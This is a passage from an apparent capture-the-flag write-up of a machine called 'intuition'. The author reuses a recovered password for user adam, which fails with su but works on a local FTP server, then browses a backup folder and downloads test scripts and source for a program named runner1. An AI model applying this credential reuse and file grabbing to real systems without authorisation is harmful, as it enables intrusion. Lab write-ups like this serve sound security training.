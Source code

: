 ```bash
Stopped: Mon Sep  9 13:38:09 2024
```

The adam's password doesn't work in the system:

```bash
dev_acc@intuition:/var/www/app$ su adam
Password: adam gray
su: Authentication failure
```

But there's also a username adam in the ftp installation:

```bash
dev_acc@intuition:/var/www/app$ cd /opt/ftp/
dev_acc@intuition:/opt/ftp$ ls
adam  ftp_admin
```

So I will try it there and it works:

```bash
dev_acc@intuition:/opt/ftp$ ftp localhost
Connected to localhost.
220 pyftpdlib 1.5.7 ready.
Name (localhost:dev_acc): adam
331 Username ok, send password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

There are some backup files of something called runner1 but I have access denied:

```bash
ftp> dir
229 Entering extended passive mode (|||55389|).
150 File status okay. About to open data connection.
drwxr-xr-x   3 root     1002         4096 Apr 10 08:21 backup
226 Transfer complete.
ftp> cd backup
250 "/backup" is the current directory.
ftp> dir
229 Entering extended passive mode (|||50105|).
125 Data connection already open. Transfer starting.
drwxr-xr-x   2 root     1002         4096 Apr 10 08:21 runner1
226 Transfer complete.
ftp> cd runner
550 No such file or directory.
ftp> cd runner1
250 "/backup/runner1" is the current directory.
ftp> dir
229 Entering extended passive mode (|||36941|).
125 Data connection already open. Transfer starting.
-rwxr-xr-x   1 root     1002          318 Apr 06 00:25 run-tests.sh
-rwxr-xr-x   1 root     1002        16744 Oct 19  2023 runner1
-rw-r--r--   1 root     1002         3815 Oct 19  2023 runner1.c
226 Transfer complete.
ftp> prompt off
Interactive mode off.
ftp> mget .
local: run-tests.sh remote: run-tests.sh
229 Entering extended passive mode (|||40779|).
125 Data connection already open. Transfer starting.
100% |*******************************************************************************************************************************************|   318      152.97 KiB/s    00:00 ETA
```